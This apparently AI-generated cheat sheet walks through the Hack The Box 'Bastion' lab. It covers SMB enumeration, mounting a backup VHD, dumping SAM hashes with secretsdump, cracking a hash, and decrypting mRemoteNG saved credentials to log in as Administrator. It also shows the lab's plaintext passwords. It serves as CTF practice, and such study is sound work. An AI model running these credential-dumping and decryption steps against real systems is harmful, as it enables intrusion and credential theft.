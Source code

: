 ## 🔧 **Tools Used**
- `nmap`
- `smbmap`
- `smbclient`
- `mount` (with CIFS)
- `guestmount` (from `libguestfs-tools`)
- `secretsdump.py` (Impacket)
- [CrackStation](https://crackstation.net/)
- `ssh`
- `mRemoteNG`
- `java -jar decipher_mremoteng.jar`
- Custom Python decryption script
- PowerShell
- `type` (Windows)

---

## 💻 **Commands Used (Chronologically)**

### 📡 Recon
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.134
nmap -sC -sV -p 22,135,139,445 -oA scans/nmap-tcpscripts 10.10.10.134
```

### 📁 [SMB](SMB.md) Enumeration
```bash
smbmap -H 10.10.10.134
smbmap -H 10.10.10.134 -u df
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/backups
```

### 🔗 Mount SMB Share
```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
find /mnt/ -type f
```

### 🧩 Mount VHD
```bash
apt install libguestfs-tools
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
ls /mnt2/
```

### 🔓 Dump Credentials
```bash
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 🔐 Crack Password
```bash
# Use https://crackstation.net/ on hash 26112010952d963c8dc4217daec986d9
```

### 💻 [SSH](SSH.md) as User
```bash
ssh L4mpje@10.10.10.134
# password: bureaulampje
type C:\Users\L4mpje\Desktop\user.txt
```

### 📂 Inspect Installed Software
```powershell
cd "C:\Program Files (x86)\"
```

### 🔎 mRemoteNG Profile
```powershell
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
type confCons.xml
```

### 🔓 Decrypt Password via Java
```bash
# (Download jar from: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/decipher_mremoteng.jar)
java -jar decipher_mremoteng.jar V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==
```

### 🔓 Decrypt via Python Script
```bash
./mRemoteNG-decrypt.py confCons.xml
```

### 🔐 SSH as Administrator
```bash
ssh administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🔗 Link to Writeup

📖 [0xdf’s Full Bastion Writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

---

Let me know if you'd like this converted into a markdown cheat sheet or printable version 📋